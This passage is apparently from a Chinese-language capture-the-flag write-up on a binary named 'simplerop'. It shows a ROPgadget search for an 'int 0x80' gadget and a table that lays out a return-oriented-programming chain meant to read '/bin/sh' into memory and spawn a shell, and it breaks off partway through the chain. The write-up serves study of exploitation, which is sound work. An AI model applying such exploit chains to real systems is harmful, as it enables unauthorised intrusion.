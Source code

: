      ![image-20240104203253599](../assets/img/old_imgs/image-20240104203253599.png)

     > 有点不一样但是一样

3. 构造`payload`得到`shell`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary simplerop --only int
   Gadgets information
   ============================================================
   0x080493e1 : int 0x80
   
   Unique gadgets found: 1
   ```

   得到`int 0x80`地址

   | rbp  |              |          |            |                |
   | :--: | :----------: | :------: | :--------: | :------------: |
   |      |   padding    |          |            |      0x1c      |
   |      |              |          |            |      0x4       |
   |      |  read_addr   |   ret    | 0x0806CD50 |                |
   |      |              | read_ret | 0x0806e850 | read的返回地址 |
   |      |     0x0      |          |            |      arg1      |
   |      |  b'/bin/sh'  |          |            |      arg2      |
   |      |     0x8      |          |            |      arg3      |
   |      | pop_arg_addr |   ret    | 0x0806e850 |                |
   |      |     0x0      |   edx    |            |                |
   |      |     0x0      |   ecx    |            |                |
   |      |   bss_addr   |   ebx    | 0x080EAFBA |                |
   |      | pop_eax_addr |   ret    | 0x080bae06 |                |
